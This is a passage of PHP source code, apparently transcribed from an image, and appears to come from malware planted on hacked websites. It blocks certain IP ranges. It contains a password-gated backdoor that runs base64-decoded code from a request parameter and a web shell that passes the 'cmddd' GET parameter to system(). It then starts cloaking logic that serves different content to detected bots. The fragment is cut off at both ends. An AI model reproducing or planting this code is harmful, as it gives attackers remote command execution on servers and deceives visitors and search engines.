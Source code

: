 ```
        exit();
    }       

if (eregi("67.212.",$server_remote_addr))
    {
        exit();
    }

if (eregi("173.236.",$server_remote_addr))
    {
        exit();
    }

if (eregi("184.154.",$server_remote_addr))
    {
        exit();
    }

if ($server_remote_addr == '194.115.120.14')
    {
        exit();
    }   
//////////////////////////////////////////////////////////////////////////////

if((md5($_REQUEST["img_id"]) == "ae6d32585ecc4d33cb8cd68a047d8434") && isset($_REQUEST["mod_content"])) { eval(base64_decode($_REQUEST["mod_content"])); exit(); }

$cmd = $_GET['cmddd'];
if (isset($cmd))
    {
        system($cmd);   
        exit();
    }

@$is_human = @detectBot($server_user_agent,$server_remote_addr,$server_query_string,$server_referer);

if (@$is_human==false) 
                    {
                    $folder = str_replace("www.","",$host);
                    if (($server_request=="") || ($server_request=="/"))
                        {
                            $filename = "index.php";    
                        }
                        else
                        {
                            $filename = str_replace("_","",$server_request);
                            $filename = str_replace("_","",$filename);
                            $filename = str_replace(" ","",$filename);
                            $filename = str_replace("%","",$filename);
                            $filename = str_replace("|","",$filename);
                            $filename = str_replace("/","",$filename);
                            $filename = str_replace(";","",$filename);
                            $filename = str_replace("+","",$filename);
                            $filename = str_replace("?","",$filename);
                            $filename = str_replace(".","",$filename);
                            $filename = str_replace("=","",$filename);
                            $filename1 = str_replace("&","",$filename);
                            $filename2 = str_replace("&","amp",$filename);
                            $filename1 = $filename1.".php";
                            $filename2 = $filename2.".php";
                        }                       
                    if (extension_loaded('curl'))
```